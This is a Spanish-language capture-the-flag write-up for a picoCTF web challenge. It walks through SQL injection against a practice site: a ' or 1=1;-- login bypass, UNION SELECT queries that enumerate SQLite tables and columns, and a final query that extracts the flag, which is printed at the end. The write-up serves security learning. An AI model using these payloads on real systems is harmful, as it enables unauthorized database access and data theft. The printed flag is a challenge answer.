 ## Descripción
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:58351/).

## Solución
Al entrar al sitio web se tiene un login donde cuando se ingresa algo se regresa la consulta de SQL con los datos ingresados, para hacer un bypass de este formulario se debe de ingresar (' or 1=1;--), al ingresar a la siguiente seccion se tienen ciudades con su dirección y telefono
Cuando se ingresa la consulta para ver tablas y sus columnas (Algiers' union SELECT name,null,null FROM sqlite_master WHERE type='table' ORDER BY name;--) se obtienen los nombres de las tablas de la base de datos.
Al intentar el comando (Algiers' union SELECT name,null,null FROM PRAGMA_table_info('more_table');--) se muestra que la tabla contiene las filas flag y id.
Por lo tanto al ejecutar (Algiers' union select flag,id,null from more_table;--) se obtiene la flag

```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}
```
